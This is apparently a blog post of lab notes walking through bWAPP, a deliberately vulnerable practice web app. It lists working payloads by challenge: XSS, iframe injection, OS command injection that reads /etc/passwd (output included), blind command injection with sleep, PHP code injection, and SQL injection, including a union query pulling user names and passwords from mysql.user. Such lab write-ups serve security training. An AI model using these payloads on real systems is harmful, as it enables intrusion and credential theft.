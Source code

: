 ```yaml
---
layout: post
title: bwapp
slug: bwapp
name: bwapp
---
```


# bwapp

## A1 HTML injection - Reflected (GET)

### low

{% highlight html %}

First name: <script>alert(1)</script>
Last name: <script>alert(2)</script>

{% endhighlight #}

### medium

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### high

??

## A1 HTML Injection - Reflected (POST)

### Low: 

{% highlight html %}
First: <script>alert(1)</script>
Last: <script>alert(1)</script>
{% endhighlight %}

### Medium:

{% highlight html %}
First: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e
Last: %3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%32%29%3c%2f%73%63%72%69%70%74%3e
{% endhighlight %}

### High:

??

## A1 HTML Injection - Reflected (URL)

### Low

Set host in request to whatever you want

## A1 Html Injection - Stored (Blog)

{% highlight html %}
<script>alert(1)</script>
{% endhighlight %}

## Iframe injection

?ParamUrl=robots.txt" onload="alert(1)&ParamWidth=250&ParamHeight=250

## SMTP Injection

Doesn't seem to work in docker image, but adding the following should execute:

To: malicious@email.com
Subject: Whatever

## LDAP Injection

Doesn't seem to work in VM

## OS Command Injection

{% highlight bash %}
www.nsa.gov;cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false 

{% endhighlight %}

## Blind OS Command Injection

{% highlight bash %}
127.0.0.1;sleep 10s;
{% endhighlight %}

The key is to verify the request takes the amount of time you're telling it to

## PHP Code Injection

http://127.0.0.1:2000/phpi.php?message=phpinfo()

## Server-side includes injection

Doesn't seem to work on the docker version

## SQL Injection (get)

' or 1 union all select 1,2,User,Password,5,6,7 from mysql.user -- '


## SQL Injection (select/get)

0 or 1 != 1 union all select 1,2,3,4,5,6,7

## SQL Injection (POST/Search)

{% highlight bash %}
POST /sqli_6.php HTTP/1.1
Host: localhost:2000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Referer: http://localhost:2000/sqli_6.php
Cookie: security_level=0; PHPSESSID=5vmnafast16eicmr5tmf7b63h7
Connection: close
Upgrade-Insecure-Requests: 1

title=' or 1 = 1 -- '&action=search
{% endhighlight %}

## SQL Injection (post/select)

{% highlight bash %}
POST /sqli_13.php HTTP/1.1
Host: localhost:2000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Referer: http://localhost:2000/sqli_13.php
Cookie: security_level=0; PHPSESSID=5vmnafast16eicmr5tmf7b63h7
Connection: close
Upgrade-Insecure-Requests: 1

movie=0 or 1 != 1 union all select 1,2,3,4,5,6,7&action=go
{% endhighlight %}

## SQL Injection (ajax/json/jquery)

'%20or%201=1%20union%20all%20select%201,2,3,4,5,6,7--'

## SQL Injection (captcha)

Doesn't seem to function in the docker image

## SQL Injection (Login form/hero)

'%20or%201=1--'